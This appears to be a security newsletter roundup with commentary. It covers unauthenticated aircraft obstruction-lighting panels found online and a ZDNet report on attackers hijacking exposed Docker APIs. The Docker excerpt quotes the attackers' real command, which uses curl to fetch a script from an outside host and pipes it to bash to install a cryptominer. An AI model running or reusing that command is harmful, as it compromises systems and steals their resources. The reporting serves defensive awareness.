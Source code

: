 > The issue was with "obstruction lighting" designed to alert aircraft to obstacles. Dan found at least 46 control panels online for light systems, including in Baltimore; Tuscola, IL; Decatur, TX; as well as Ontario in Canada, according to a list of IP addresses and other details he provided to Motherboard. The names of the systems' locations suggest some of the systems could have controlled lighting on tall cell phone towers.
> 
> One panel Dan showed Motherboard included controls such as "Force Day, "Force Twilight," and "Force Night."


Scanning for systems online seems like it would be the worlds most depressing job.  You just keep running into these things, whether it be CCTV system, databases of people's identities or lighting control systems.

It's easy to say that these systems shouldn't be online, but the actual issue here for me is that these systems have little to no authentication on them.  It's not like we can go around telling people the wonders of a second factor in authentication if they aren't even bothering with a first factor!


## [A hacking group is hijacking Docker systems with exposed API endpoints | ZDNet](https://www.zdnet.com/article/a-hacking-group-is-hijacking-docker-systems-with-exposed-api-endpoints/)

[https://www.zdnet.com/article/a-hacking-group-is-hijacking-docker-systems-with-exposed-api-endpoints/](https://www.zdnet.com/article/a-hacking-group-is-hijacking-docker-systems-with-exposed-api-endpoints/)

> What we know so far is that the group behind these attacks is currently scanning more than 59,000 IP networks (netblocks) looking for exposed Docker instances.
> 
> Once the group identifies an exposed host, attackers use the API endpoint to start an Alpine Linux OS container where they run the following command:
> 
> chroot /mnt /bin/sh -c 'curl -sL4 http://ix.io/1XQa | bash;
> 
> The above command downloads and runs a Bash script from the attackers' server. This script installs a classic XMRRig cryptocurrency miner. In the two days since this campaign has been active, hackers have already mined 14.82 Monero coins (XMR), worth just over $740, Mursch noted.


An older article, but one that shows that attackers are happy to move techniques on how they compromise systems, but their goals tend to remain the same.  If your docker instances got taken over, there's probably lots of damaging things those attackers could do, that would completely destroy your business and your commercial reputation.  But they just want to mine cryptocurrency using your power and credit card bills.


## [Digital Public Assets: Rethinking value, access and control of public sector data in the platform age](https://common-wealth.co.uk/digital-public-assets.html)

[https://common-wealth.co.uk/digital-public-assets.html](https://common-wealth.co.uk/digital-public-assets.html)
